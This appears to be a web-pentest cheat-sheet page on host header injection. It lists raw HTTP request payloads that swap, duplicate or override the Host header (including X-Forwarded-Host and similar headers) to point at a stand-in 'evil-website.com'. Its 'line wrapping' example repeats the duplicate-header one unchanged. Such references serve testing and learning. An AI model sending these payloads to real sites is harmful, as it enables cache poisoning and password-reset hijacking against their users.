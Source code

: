 ```yaml
---
title: "Host Header Injection"
draft: false
images: []
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


### Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
### Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
### Add line wrapping
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
### Add host override headers
```
X-Forwarded-For : evil-website.com
X-Forwarded-Host : evil-website.com
X-Client-IP : evil-website.com
X-Remote-IP : evil-website.com
X-Remote-Addr : evil-website.com
X-Host : evil-website.com
```
### X-Forwarded-For : evil.com
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
### Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```